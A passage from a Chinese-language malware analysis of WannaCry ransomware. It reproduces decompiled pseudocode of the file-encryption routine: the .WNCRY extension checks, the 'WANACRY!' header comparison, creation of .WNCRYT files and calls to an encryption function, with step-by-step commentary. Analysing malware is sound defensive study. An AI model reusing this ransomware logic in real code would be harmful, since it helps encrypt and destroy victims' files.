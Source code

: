 25.   else  

26.   {  

27.     DeleteFileW_Addr(&NewTargetFileFullPath);  

28.     result = 0;  

29.   }  

30.   return result;  

31. }  

这个函数仍然是作为加密函数的准备工作，获取文件的后缀名，将后缀名和.WNCRY做比较，如果一致就不加密，然后将原后缀与.WNCRY做拼接，然后开始加密文件

### 6.2.7 第七层

1.  if ( !GetFileSizeEx(hFile_1, &FileSize) )     // 获取目标文件大小  

2.  {  

3.    local_unwind2((int)&ms_exc.registration, -1);  

4.    return 0;  

5.  }  

6.  GetFileTime(hFile_1, &CreationTime, &LastAccessTime, &LastWriteTime);// 获取文件时间  

7.  if ( ReadFile_Addr(hFile_1, &lpBuffer, 8, &lpNumberOfBytesRead, 0)// 读取0x8个字节的文件内容  

8.    && !memcmp(&lpBuffer, aWanacry, 8u)         // 将0x8个字节与WANACRY!比较  

```{=html}
<!-- -->
```
1.  读取文件前0x8个字节，与WNACRY！作比较

```{=html}
<!-- -->
```
1.  SetFilePointer(hFile, 0, 0, 0);               // 将文件指针重新设置到文件开头  

2.    if ( a4 == 4 )  

3.    {  

4.      swprintf(&String, (size_t)aSS, NewTargetFileFullPath, aT);// 拼接字符串 在原文件后加上.WNCRYT  

5.      NewhFile = (void *)CreateFileW_Addr(&String, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);// 创建文件  

2．使用源文件名 + .WNCRYT 创建一个新的空的文件

1.  if ( !EncryptDatas(v32, &pbBuffer, 0x10u, (int)&v17, (int)&v20) )// 对数据进行加密  

2.      goto LABEL_39;  

3.    sub_10005DC0(this_1 + 84, (int)&pbBuffer, (int)off_1000D8D4, 16, 16);  

4.    memset(&pbBuffer, 0, 0x10u);  

5.    if ( !WriteFile_Addr(NewhFile, aWanacry, 8, &v35, 0)// 写入到创建的文件->WANACRY!   
